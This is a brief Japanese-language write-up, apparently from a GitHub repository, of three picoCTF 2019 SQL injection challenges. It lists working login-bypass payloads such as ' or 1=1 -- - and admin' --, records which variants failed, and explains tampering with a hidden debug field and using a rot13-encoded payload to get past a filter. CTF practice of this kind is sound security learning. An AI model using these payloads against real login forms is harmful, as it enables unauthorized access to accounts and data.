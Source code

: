 # writeup

# 常設の練習
## picoCTF 2019
https://ctftime.org/task/9545  
### Irish-Name-Repo 1
`https://2019shell1.picoctf.com/problem/47253/`  
SQLインジェクションでadminとしてログインする。  

`admin`,`' or 1=1 -- -`でログイン成功！  
### Irish-Name-Repo 2
`https://2019shell1.picoctf.com/problem/60775/`  
`admin' --`,`なんでも`でusernameの方のSQLインジェクションで成功！  
passwordの方がフィルタリングされてるらしい。`or`が使えないので`||`とかで代用したりいろいろしたがダメだった。  
```txt
// 成功したやつ
admin' --
admin' -- -
admin' ; --
admin' ;#

// 成功しなかったやつ
admin' #
```
### Irish-Name-Repo 3
`https://2019shell1.picoctf.com/problem/47247/`  
htmlのhiddenとして`debug=0`という値をフォームでパスワードと一緒に送信しているので`debug=1`とすると、実行しようとしている
SQL構文がわかる。どうやらpasswordのテキストをrot13で変換してからSQLに突っ込んでいるらしい。  
`' be 1 -- -`とすると`' or 1 -- -`と変換されて以下のように成功！  
```txt
SQL query: SELECT * FROM admin where password = '' or 1 -- -'
```

# メモ
https://www.hamayanhamayan.com/entry/2020/06/25/222618  
https://graneed.hatenablog.com/entry/2019/12/29/115100#SQL-Injection  
https://graneed.hatenablog.com/entry/2018/12/16/003745  
